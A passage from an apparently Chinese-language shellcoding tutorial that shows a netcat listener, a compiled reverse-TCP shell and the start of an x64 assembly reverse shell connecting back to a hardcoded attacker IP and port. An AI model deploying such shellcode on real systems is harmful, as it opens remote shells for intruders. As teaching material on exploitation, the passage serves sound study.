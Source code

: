 ```
$ nc -lp 1234
```

在 Ubuntu 上，让我们编译并运行`reverse-tcp`外壳代码：

```
$ gcc reverse-tcp.c -o reverse-tcp
$ ./reverse-tcp
```

再次回到我的卡利，我接通了！

![](../images/00216.gif)

那很简单！

现在，让我们在汇编中构建一个反向 TCP 外壳，然后将其转换为外壳代码。

`socket`函数与我们在 bind TCP 中解释的完全相同。将`socket`的输出移动到 RDI 寄存器：

```
xor rax, rax
add rax, 41
xor rdi, rdi
add rdi, 2
xor rsi, rsi
inc rsi
xor rdx, rdx
syscall

mov rdi, rax
```

接下来是填充`mysockaddr`结构，除了我们必须以 32 位压缩格式推出攻击者的 IP 地址。我们将使用 Python 实现这一点：

![](../images/00217.gif)

所以我们 32 位压缩格式的 IP 地址是`01eea8c0`。

让我们构建我们的结构并将堆栈指针移动到 RSI：

```
xor rax, rax 
push dword 0x01eea8c0
push word 0xd204
push word 0x02

mov rsi, rsp
```

现在，让我们构建`connect`函数：

```
 connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(mysockaddr));
```

然后，运行以下命令：

```
$ man 2 connect
```

